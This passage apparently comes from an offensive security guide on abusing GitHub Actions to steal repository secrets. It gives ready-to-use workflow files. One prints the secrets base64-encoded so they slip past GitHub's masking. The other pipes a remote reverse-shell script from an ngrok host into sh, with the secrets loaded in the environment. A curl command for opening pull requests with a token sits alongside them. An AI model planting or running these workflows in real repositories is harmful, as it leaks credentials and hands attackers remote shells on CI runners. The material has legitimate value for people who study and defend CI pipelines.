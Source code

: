 ```bash
# Create a PR
curl -X POST \
  -H "Accept: application/vnd.github.v3+json" \
  --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
  https://api.github.com/repos/<org_name>/<repo_name>/pulls \
  -d '{"head":"<branch_name>","base":"master", "title":"title"}'
```

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.
{% endhint %}

#### List secrets in Github Action output

```yaml
name: list_env
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  List_env:
    runs-on: ubuntu-latest
    steps:
      - name: List Env
        # Need to base64 encode or github will change the secret value for "***"
        run: sh -c 'env | grep "secret_" | base64 -w0'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

#### Get reverse shell with secrets

```yaml
name: revshell
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  create_pull_request:
    runs-on: ubuntu-latest
    steps:
      - name: Get Rev Shell
        run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
